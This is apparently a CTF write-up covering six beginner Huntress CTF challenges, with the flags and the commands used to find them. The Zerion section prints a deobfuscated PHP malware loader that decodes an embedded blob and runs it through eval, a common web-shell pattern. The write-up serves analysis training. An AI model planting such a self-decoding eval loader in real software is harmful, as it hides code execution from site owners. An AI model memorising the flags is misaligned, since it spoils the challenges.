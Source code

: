 # Huntress CTF

## Notepad

### Description

> Just a sanity check... you do know how to use a computer, right?
>
> Download the files below.
>
> Attachments: notepad

### Flag

flag{2dd41e3da37ef1238954d8e7f3217cd8}

### Solution

The flag is in the attached `notepad` file.

```console
root@kali:~/ctf/HuntressCTF/Notepad# cat notepad
+------------------------------------------------------+
| [✖] [□] [▬]  Notepad                              - |
|------------------------------------------------------|
| File   Edit   Format   View   Help                   |
|------------------------------------------------------|
|                                                      |
|                                                      |
|   New Text Document - Notepad                        |
|                                                      |
|     flag{2dd41e3da37ef1238954d8e7f3217cd8}           |
|                                                      |
|                                                      |
|                                                      |
|                                                      |
|                                                      |
|                                                      |
|                                                      |
|                                                      |
|                                                      |
|                                                      |
+------------------------------------------------------+
| Ln 1, Col 40                                         |
+------------------------------------------------------+
```

## Technical Support

### Description

> Want to join the party of GIFs, memes and emoji shenanigans? Or just want to ask a question for technical support regarding any challenges in the CTF?
>
> This CTF uses support tickets to help handle requests. If you need assistance, please create a ticket with the **#ctf-open-ticket** channel. You do not need to direct message any CTF organizers or facilitators, they will just tell you to open a ticket. You might find a flag in the ticket channel, though!
>
> Connect here:
>
> Join the Discord!

### Flag

flag{a98373a74abb8c5ebb8f5192e034a91c}

### Solution

Looking at `#ctf-open-ticket` channel, found flag in the message.

![flag_technical_support.png](img/flag_technical_support.png)

## String Cheese

### Description

> Oh, a cheese stick! This was my favorite snack as a kid. My mom always called it by a different name though...
>
> Download the file(s) below.
>
> Attachments: cheese.jpg

### Flag

flag{f4d9f0f70bf353f2ca23d81dcf7c9099}

### Solution

I got the flag by `strings` command.

```console
root@kali:~/ctf/HuntressCTF# strings cheese.jpg | grep flag
flag{f4d9f0f70bf353f2ca23d81dcf7c9099}
```

## Read The Rules

### Description

> Please follow the rules for this CTF!
>
> Connect here:
>
> [Read The Rules](https://huntress.ctf.games/rules)

### Flag

flag{90bc54705794a62015369fd8e86e557b}

### Solution

The flag is in HTML source code.

```console
root@kali:~/ctf/HuntressCTF# curl -s https://huntress.ctf.games/rules | grep -oE 'flag{[0-9a-fA-F]{32}}'
flag{90bc54705794a62015369fd8e86e557b}
```

## Query Code

### Description

> What's this?
>
> Download the file(s) below.
>
> Attachments: query_code

### Flag

flag{3434cf5dc6a865657ea1ec1cb675ce3b}

### Solution

```console
root@kali:~/ctf/HuntressCTF# file query_code
query_code: PNG image data, 111 x 111, 1-bit colormap, non-interlaced
```

The attached `query_code` file is PNG image and it's the following.

![query_code](img/query_code.png)

This file is QR Code, and therefore I decode it.
[`zbarimg`](https://github.com/mchehab/zbar) command is useful, which is provided by `zbar-tools` package in Debian-based distribution.

```console
root@kali:~/ctf/HuntressCTF# apt install zbar-tools
(snip)
root@kali:~/ctf/HuntressCTF# zbarimg query_code
QR-Code:flag{3434cf5dc6a865657ea1ec1cb675ce3b}

scanned 1 barcode symbols from 1 images in 0.04 seconds
```

## Zerion

### Description

> We observed some odd network traffic, and found this file on our web server... can you find the strange domains that our systems are reaching out to?
>
> NOTE, this challenge is based off of a real malware sample. We have done our best to "defang" the code, but out of abudance of caution it is strongly encouraged you only analyze this inside of a virtual environment separate from any production devices.
>
> Download the file(s) below.
>
> Attachments: zerion

### Flag

flag{af10370d485952897d5183aa09e19883}

### Solution

The attached file is obfuscated PHP code.

Beautified:

```php
<?php $L66Rgr = explode(base64_decode("Pz4="), file_get_contents(__FILE__));
$L6CRgr = [
    base64_decode("L3gvaQ=="),
    base64_decode("eA=="),
    base64_decode(strrev(str_rot13($L66Rgr[1]))),
];
$L7CRgr = "d6d666e70e43a3aeaec1be01341d9f9d";
preg_replace($L6CRgr[0], serialize(eval($L6CRgr[2])), $L6CRgr[1]);
exit(); ?>
==Dstfmo (snip)
```

In L1, it reads the content of this file by using `file_get_contents(__FILE__)`.
`Pz4=` is Base64 encoded string and the decoded string is `?>`.
[`explode`](https://www.php.net/manual/en/function.explode.php) is the function to split a string.
Thus, `$L66Rgr[1]` is the string starting with `==Dstfmo` after `?>`.
In L5, `$L66Rgr[1]` is rotated by 13 places ([ROT13](`$L66Rgr[1]`)), reversed, and Base64 decoded.
Decoded it, got flag.

```console
root@kali:~/ctf/HuntressCTF# vi tmp.txt  # save the string starting with `==Dstfmo` after `?>`

root@kali:~/ctf/HuntressCTF# cat tmp.txt | tr 'A-Za-z' 'N-ZA-Mn-za-m' | rev | base64 -d | grep -o 'flag{.*}'
flag{af10370d485952897d5183aa09e19883}
```
